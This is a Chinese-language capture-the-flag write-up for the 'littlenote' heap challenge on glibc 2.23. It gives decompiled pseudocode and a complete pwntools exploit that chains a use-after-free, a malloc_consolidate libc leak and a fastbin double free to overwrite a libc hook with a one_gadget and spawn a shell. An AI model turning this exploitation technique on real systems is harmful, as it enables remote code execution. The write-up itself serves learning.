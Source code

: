 # 铁三总决赛 littlenote
## Author: Wenhuo

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>一开始以为总决赛的题目会很难。。后来竟然三题里连我都做出了两题，题目都是glibc2.23的，算是非常经典常规的题目，没有tcache，也没有内核题。</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>不多说了，先来看第一题，非常简单，冲脸就是一个**UAF和double free**，要点就在于如何泄露libc地址，这里用scanf就可以很简单的做到（**输入超长字符串给scanf就可以调用malloc分配largebin造成malloc\_consolidate**），这里坑就坑在我以为任何字符串都可以Orz，后来发现**像%u,%d之类的只能传数字**，不然输啥都不会malloc largebin。</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>老样子先看看IDA分析的伪代码：</font></br>

**main**
```C
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  unsigned int v3; // eax
  char s; // [rsp+10h] [rbp-20h]
  unsigned __int64 v5; // [rsp+28h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  init();
  memset(&s, 0, 0x10uLL);
  while ( 1 )
  {
    while ( 1 )
    {
      menu();
      read(0, &s, 0xFuLL);
      v3 = atoi(&s);
      if ( v3 != 2 )
        break;
      shownote();
    }
    if ( v3 > 2 )
    {
      if ( v3 == 3 )
      {
        freenote();
      }
      else
      {
        if ( v3 == 4 )
          exit(0);
LABEL_13:
        puts("Invalid option!");
      }
    }
    else
    {
      if ( v3 != 1 )
        goto LABEL_13;
      addnote();
    }
  }
}
```

**addnote**

```C
unsigned __int64 addnote()
{
  __int64 v0; // rbx
  __int64 v1; // rbx
  char buf; // [rsp+0h] [rbp-20h]
  unsigned __int64 v4; // [rsp+8h] [rbp-18h]

  v4 = __readfsqword(0x28u);
  if ( (unsigned __int64)notenum > 0xF )
    puts("FULL");
  v0 = notenum;
  note[v0] = (const char *)malloc(0x60uLL);
  puts("Enter your note");
  read(0, (void *)note[notenum], 0x60uLL);
  puts("Want to keep your note?");
  read(0, &buf, 7uLL);
  if ( buf == 'N' )
  {
    puts("OK,I will leave a backup note for you");
    free((void *)note[notenum]);
    v1 = notenum;
    note[v1] = (const char *)malloc(0x20uLL);
  }
  ++notenum;
  puts("Done");
  return __readfsqword(0x28u) ^ v4;
}
```

**shownote**

```C
unsigned __int64 shownote()
{
  unsigned int v1; // [rsp+4h] [rbp-Ch]
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  puts("Which note do you want to show?");
  _isoc99_scanf("%u", &v1);
  if ( v1 < (unsigned __int64)notenum )
  {
    if ( note[v1] )
      puts(note[v1]);
    puts("Done");
  }
  else
  {
    puts("Out of bound!");
  }
  return __readfsqword(0x28u) ^ v2;
}
```

**freenote**

```C
unsigned __int64 freenote()
{
  unsigned int v1; // [rsp+4h] [rbp-Ch]
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  puts("Which note do you want to delete?");
  _isoc99_scanf("%u", &v1);
  if ( v1 < (unsigned __int64)notenum )
  {
    if ( note[v1] )
      free((void *)note[v1]);
    puts("Done");
  }
  else
  {
    puts("Out of bound!");
  }
  return __readfsqword(0x28u) ^ v2;
}
```


&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>所以我们只要分配一系列fastbin，然后free之，直接就有重叠堆块了，然后用malloc_consolidate就可以泄露libc地址，再利用double free就可以把指针分配到\__free_hook上去，就做完了:)</font></br>

```python
#encoding:utf-8

from pwn import *

context.log_level='debug'

#p=process('./littlenote',env={'LD_PRELOAD':'./libc.so.6'})
p = remote('202.0.1.56',40001)
elf=ELF('./libc.so.6')

free_hook=elf.symbols['__free_hook']
one_gadget=0xf0274

sd=lambda x : p.send(x)
sl=lambda x : p.sendline(x)
sla=lambda a,x : p.sendlineafter(a,x)
rv=lambda x : p.recvuntil(x)
sa=lambda a,x : p.sendafter(a,x)


def alloc(content='',is_keep='Y'):
    sla('Your choice:\n','1')
    sla('Enter your note\n',content)
    sla('Want to keep your note?\n',is_keep)

def show(index,out=0,content=''):
    sla('Your choice:\n','2')
    if out:
        sla('Which note do you want to show?\n',content)
    else:
        sla('Which note do you want to show?\n',str(index))

def dele(index):
    sla('Your choice:\n','3')
    sla('Which note do you want to delete?\n',str(index))


alloc()     # 0
alloc()     # 1
alloc()     # 2
alloc()     # 3

dele(0)
dele(1)
dele(2)

show(2)
chunk_base=u64(p.recv(6)+2*'\x00')-0x70
log.info('chunk_base:'+hex(chunk_base))

# malloc_consildate在这
# 不懂的调试看看结果
# 或者在how2pwn里找一下我记得有demo
show(0,1,'1'*0x400)

alloc()     # 4 (0)
show(4)
libc_base=u64(p.recv(6)+2*'\x00')-0x3c4c0a
log.info('libc_base:'+hex(libc_base))

alloc()     # 5 (1)
alloc()     # 6 (2)

dele(4)
dele(1)
dele(0)

alloc(p64(libc_base+0x3c4aed))
alloc(p64(libc_base+0x3c4aed))
alloc(p64(libc_base+0x3c4aed))
alloc('a'*0x13+p64(libc_base+one_gadget))

sla('Your choice:\n','1')

p.interactive()


'''
0x45216	execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4526a	execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf0274	execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1117	execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL

'''

```
